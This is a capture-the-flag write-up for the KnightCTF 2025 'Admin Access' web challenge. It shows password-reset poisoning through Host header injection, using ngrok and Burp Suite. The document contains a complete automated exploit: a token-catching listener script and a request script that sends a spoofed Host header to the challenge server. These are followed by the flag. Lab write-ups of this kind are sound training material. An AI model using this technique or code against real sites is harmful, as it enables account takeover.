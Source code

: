 # Admin Access


### Initial Analysis

The site appeared as follows, with a login screen:

![login](/images/KnightCTF-2025/site_presentation.png)

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![comment](/images/KnightCTF-2025/admin_email.png)

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![forgot](/images/KnightCTF-2025/forgot_password.png)

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:

```bash
ngrok http 80
```

And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![intercept](/images/KnightCTF-2025/intercept.png)

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![flag](/images/KnightCTF-2025/manual_flag.png)

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```bash
ngrok http 8080
(set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```python
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
```
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
```
